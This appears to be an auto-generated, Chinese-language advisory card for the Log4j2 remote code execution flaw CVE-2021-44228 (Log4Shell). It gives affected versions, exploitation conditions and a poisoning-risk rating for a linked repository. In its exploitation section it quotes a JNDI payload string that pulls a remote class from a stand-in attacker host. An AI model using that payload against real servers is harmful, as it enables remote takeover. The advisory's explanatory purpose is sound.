 ## CVE-2021-44228 Apache Log4j2 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 2.0-beta9 <= version <= 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标系统使用了受影响的Log4j2版本，并且允许攻击者控制Log4j2的日志消息或日志消息参数

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2021-44228，也被称为Log4Shell，是一个严重的远程代码执行漏洞，存在于Apache Log4j2 2.0-beta9到2.15.0版本中（不包括安全版本2.12.2、2.12.3和2.3.1）。

**有效性：**
漏洞库信息明确指出，在特定版本的Log4j2中，JNDI功能未对攻击者控制的LDAP和其他JNDI相关端点提供保护。如果攻击者可以控制日志消息或日志消息参数，并且启用了消息查找替换，则可以执行从LDAP服务器加载的任意代码。因此，可以判定漏洞利用代码有效。

**投毒风险：**
提供的漏洞利用代码只是一个GNU GPL v2许可协议的文本文件，不是漏洞利用的payload或者脚本，不包含任何可执行的代码，因此，不存在投毒代码。投毒风险为0%。

**利用方式：**
该漏洞的利用方式是，攻击者构造包含JNDI查找的恶意字符串，例如`${jndi:ldap://attacker.com/evil}`。当Log4j2记录此字符串时，它会尝试解析JNDI查找。这将导致Log4j2通过LDAP协议连接到攻击者控制的服务器`attacker.com`。攻击者可以在其LDAP服务器上托管一个恶意Java类，当Log4j2连接到LDAP服务器时，该类将被下载并执行，从而导致远程代码执行。需要注意的是，从Log4j 2.15.0开始，此行为已默认禁用，并在版本2.16.0中完全删除（以及2.12.2、2.12.3和2.3.1）。


**项目地址:** [KamalideenAK/Microsoft-Defender-for-Endpoint-Deployment-on-Windows-10-11-device](https://github.com/KamalideenAK/Microsoft-Defender-for-Endpoint-Deployment-on-Windows-10-11-device)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)